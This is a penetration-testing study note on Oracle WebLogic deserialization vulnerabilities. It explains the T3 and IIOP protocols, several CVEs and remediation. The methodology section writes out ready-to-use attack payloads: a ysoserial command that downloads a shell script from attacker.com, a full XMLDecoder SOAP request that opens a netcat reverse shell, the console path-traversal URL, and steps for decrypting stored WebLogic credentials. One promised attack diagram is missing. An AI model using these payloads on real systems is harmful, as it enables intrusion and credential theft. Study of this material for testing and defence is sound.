

# Oracle WebLogic Deserialization Vulnerabilities

## 1. Introduction to Oracle WebLogic Server

Oracle WebLogic Server is a premier enterprise Java EE (Enterprise Edition) application server currently developed by Oracle Corporation. Due to its robustness, scalability, and integration capabilities, it is highly favored by large organizations, financial institutions, and telecommunications companies for hosting mission-critical applications. Because of its enterprise prevalence, it represents a highly lucrative target for advanced persistent threats (APTs) and red teams. 

The architecture of WebLogic relies heavily on Java object serialization to allow seamless communication between disparate enterprise components, distributed naming services (JNDI), and Remote Method Invocation (RMI) mechanisms. Over the last decade, the discovery of severe flaws in how WebLogic parses serialized objects has led to a barrage of unauthenticated Remote Code Execution (RCE) zero-days.

Understanding WebLogic exploitation requires a firm grasp of network protocols specifically engineered for WebLogic, primarily the **T3** protocol, the **IIOP** protocol, and specific HTTP-based REST/XML endpoints that unsafely deserialize data.

---

## 2. The T3 Protocol and Architecture

The **T3 protocol** is an Oracle proprietary protocol used to transport information between WebLogic servers and other types of Java programs. It operates over TCP, usually heavily multiplexed, and its primary role is to transmit Java serialized objects back and forth. 

### T3 Protocol Handshake
When a client connects to a WebLogic instance over T3, a specific handshake occurs. The client must first identify itself and state the protocol version it wishes to speak.

1. **Client sends:** `t3 12.2.1\nAS:255\nHL:19\nMS:10000000\n\n`
2. **Server responds:** `HELO:12.2.1.3.0.false\nAS:2048\nHL:19\nMS:10000000\n\n`

After the handshake, binary serialized data can be transmitted. If an attacker can formulate a malicious serialized payload (using a known gadget chain) and send it over this established T3 connection, the server will indiscriminately deserialize it.

---

## 3. The Anatomy of WebLogic Deserialization (CVE-2015-4852)

CVE-2015-4852 is the watershed vulnerability that popularized WebLogic deserialization attacks. Discovered by Gabriel Lawrence and Chris Frohoff (creators of `ysoserial`), it demonstrated that WebLogic's T3 protocol interface (`weblogic.rjvm.InboundMsgAbbrev`) performs no validation before calling `readObject()` on incoming data.

### Why It Happens
Java deserialization relies on classes implementing `java.io.Serializable`. When an object is sent over the wire, it is reconstructed at the destination. If the reconstructed object overrides `readObject()`, the custom logic within that method is executed automatically during deserialization. If this custom logic invokes dangerous operations (like reflection or process execution) based on the serialized state, it forms a "Gadget". A "Gadget Chain" links several of these safe-looking operations together to achieve RCE.

In WebLogic's case, it shipped with the highly vulnerable Apache Commons Collections library on its classpath. Therefore, attackers didn't need a WebLogic-specific gadget chain; they could just use the generic CommonsCollections chain included in `ysoserial`.

---

## 4. Attack Flow and T3 Mechanics

Below is an ASCII representation of the exploitation process for a classic T3 deserialization attack against WebLogic.



---

## 5. Evolution of WebLogic Vulnerabilities

Following CVE-2015-4852, Oracle implemented blacklists (JEP 290 filter rules) to block specific known malicious classes. What followed was a multi-year cat-and-mouse game between attackers finding bypasses and Oracle patching them.

### 5.1 CVE-2017-10271 & CVE-2019-2725 (XMLDecoder)
WebLogic's wls-wsat (Web Services Atomic Transactions) component uses Java's `XMLDecoder` to deserialize XML data into Java objects. Unlike traditional binary serialization (`ObjectInputStream`), `XMLDecoder` is fundamentally unsafe by design because it is intended to reconstruct objects using reflection and setter methods.
Attackers sent crafted XML payloads to `/wls-wsat/CoordinatorPortType` containing `<java><class><method>` tags that directly executed `java.lang.ProcessBuilder`.

### 5.2 CVE-2020-2551 (IIOP Protocol)
As organizations firewalled the T3 protocol, attackers shifted to the IIOP (Internet Inter-ORB Protocol), which runs on the same port (7001) but handles CORBA communications. Oracle had protected T3 with ObjectInputFilters but neglected to apply the same robust filtering to the `weblogic.iiop.InboundRequest` class. 
This allowed unauthenticated attackers to execute JNDI lookup payloads via IIOP, leading to RCE.

### 5.3 CVE-2020-14882 & CVE-2020-14883 (Console Authentication Bypass)
A path traversal flaw allowed attackers to access the WebLogic administrative console without credentials by requesting `/console/images/%252E%252E%252Fconsole.portal`. Combined with a gadget chain in the `com.tangosol.coherence.mvel2.sh.ShellSession` class (CVE-2020-14883), attackers could achieve unauthenticated RCE simply via an HTTP GET request.

---

## 6. Exploitation Methodology

To effectively test a WebLogic server for deserialization flaws, follow this systematic approach:

### 6.1 Fingerprinting
Identify the WebLogic version. This can often be found in the server header, or by requesting the WebLogic admin console `/console/login/LoginForm.jsp`.
Alternatively, initiate a T3 handshake using `nmap`:
```bash
nmap -p 7001 --script weblogic-t3-info <target-ip>
```
This script will output the WebLogic build and version directly from the T3 handshake response.

### 6.2 Generating Payloads
Use the `ysoserial` tool to generate a payload. For older WebLogic instances (10.3.6), `CommonsCollections1` or `CommonsCollections5` are prime candidates.
```bash
java -jar ysoserial.jar CommonsCollections1 "curl http://attacker.com/shell.sh -o /tmp/shell.sh" > payload.bin
java -jar ysoserial.jar CommonsCollections1 "bash /tmp/shell.sh" > execute.bin
```

### 6.3 Delivery Mechanisms
For T3 exploitation, dedicated Python scripts are often used because standard netcat cannot construct the proper T3 header wrapping required before sending the binary serialized object.
A standard exploit script will:
1. Connect via sockets.
2. Send `t3 12.2.1\nAS:255\nHL:19\nMS:10000000\n\n`.
3. Wait for the `HELO`.
4. Wrap the `payload.bin` inside a T3 ASYNC message header.
5. Send the payload over the wire.

For XMLDecoder (wls-wsat):
Send a POST request to `/wls-wsat/CoordinatorPortType`:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java>
        <object class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3">
            <void index="0"><string>/bin/bash</string></void>
            <void index="1"><string>-c</string></void>
            <void index="2"><string>nc -e /bin/bash attacker.com 4444</string></void>
          </array>
          <void method="start"/>
        </object>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

---

## 7. Advanced Evasion and OOB Techniques

### Out-of-Band (OOB) Testing
Because deserialization exploits are inherently blind (the output of the command executed in the background is not returned in the T3 or HTTP response), it is critical to use Out-of-Band verification.
- **JRMPListener:** The attacker starts a JRMP listener (`java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 "cmd"`). The payload sent to WebLogic is simply a `JRMPClient` gadget that connects back to the listener. When WebLogic connects back, the listener serves the actual RCE payload. This effectively bypasses local WebLogic blacklists because the actual malicious deserialization happens when WebLogic tries to process the response from the attacker's JRMP server.
- **DNS Exfiltration:** For purely validating if deserialization occurs, the `URLDNS` gadget in ysoserial is invaluable. It triggers a DNS resolution to an attacker-controlled domain without executing any commands, completely bypassing any command-execution blacklists or sandboxes.

### Filter Bypasses
Oracle's initial fix for CVE-2015-4852 was to blacklist `org.apache.commons.collections.functors.InvokerTransformer`. However, attackers found that they could use `java.util.PriorityQueue` along with other transformers to achieve the same result. This led to a series of CVEs (CVE-2016-0638, CVE-2016-3510) that were merely bypasses of the previous blacklists. The modern approach is to use JEP-290, which provides a whitelist-based ObjectInputFilter mechanism.

---

## 8. Remediation and Hardening

1. **Apply Critical Patch Updates (CPUs):** Oracle releases WebLogic patches quarterly. These patches update the internal JEP-290 filters and patch specific routing flaws.
2. **Disable T3/IIOP:** If the T3 and IIOP protocols are not required for internal routing, disable them at the connection filter level. Go to the WebLogic Admin Console -> Security -> Filter -> Connection Filter and set rules to deny all inbound T3/T3s traffic from external interfaces.
3. **Network Segmentation:** Ensure the WebLogic administration console (port 7001 by default, usually accessible via `/console`) is strictly accessible only from isolated management VLANs.
4. **Upgrade Java:** Ensure the underlying JDK is updated. JDK versions after `8u121` introduce strong JEP-290 protections natively, severely limiting the impact of arbitrary deserialization.
5. **WAF & Reverse Proxies:** Deploy a Web Application Firewall that inspects requests for known serialized magic bytes (`aced 0005` in hex) or XMLDecoder structures directed at WebLogic endpoints.

---

## 9. Chaining Opportunities

- **JNDI Injection to RCE:** WebLogic vulnerabilities often chain beautifully with [[05 - Java Deserialization ysoserial Deep Dive]] to pull secondary payloads from attacker-controlled LDAP servers.
- **SSRF to Internal WebLogic:** If an external application has Server-Side Request Forgery, an attacker can use the `gopher://` or `http://` protocol to send a crafted HTTP request to an internal WebLogic server's unprotected `/wls-wsat` endpoint, bypassing perimeter firewalls to achieve internal network compromise.
- **Privilege Escalation:** WebLogic often runs under the `oracle` or `weblogic` user context. Once a shell is established, attackers can look for WebLogic configuration files (`config.xml` or `boot.properties`) containing AES-encrypted passwords. These can be decrypted locally using the WebLogic domain's `SerializedSystemIni.dat` key file, often leading to database credential exposure or full local root compromise if the service runs with excessive privileges.

---

## 10. Related Notes

- [[05 - Java Deserialization ysoserial Deep Dive]] - Essential background on how the gadget chains actually work beneath the protocol level.
- [[04 - Apache Struts Remote Code Execution]] - Another enterprise Java technology plagued by similar architectural flaws, primarily focused on OGNL rather than raw deserialization.
- [[02 - Exploiting Adobe ColdFusion Server Vulnerabilities]] - Covers AMF/BlazeDS deserialization, showing how similar flaws persist across different enterprise platforms.
- [[03 - Liferay Portal Exploitation Techniques]] - Highlights JSON deserialization in an enterprise portal context.
